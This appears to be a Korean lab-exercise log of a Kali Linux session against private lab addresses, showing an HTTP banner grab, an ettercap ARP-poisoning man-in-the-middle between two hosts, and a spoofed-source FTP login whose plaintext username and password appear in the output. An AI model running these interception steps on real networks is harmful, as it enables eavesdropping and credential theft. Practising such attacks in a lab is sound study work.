 root@kali-04:~/Desktop# telnet 172.16.10.20 80

```
Trying 172.16.10.20...
Connected to 172.16.10.20.
Escape character is '^]'.
HEAD / HTTP/1.1

HTTP/1.1 400 Bad Request
Date: Tue, 29 Sep 2020 02:13:36 GMT
Server: Apache/2.2.15 (CentOS)
Connection: close
Content-Type: text/html; charset=iso-8859-1

Connection closed by foreign host.

```

스니핑 먼저 걸기

root@kali-04:~/Desktop# ettercap -T -i eth0 -M arp:remote //172.16.10.10// //172.16.10.20//

```
ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth0 -> 00:04:56:2F:D6:56
          172.16.10.30/255.255.255.0
          fe80::204:56ff:fe2f:d656/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
.
.
.
```

와이어샤크 실행

다른탭 열기

root@kali-04:~/Desktop# telnet -b 172.16.10.10 172.16.10.20 21

```
Trying 172.16.10.20...
Connected to 172.16.10.20.
Escape character is '^]'.
220 (vsFTPd 2.2.2)
USER ktest
331 Please specify the password.
PASS keroro2424.
230 Login successful.
LIST
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (172,16,10,20,231,56).
LIST
QUIT



```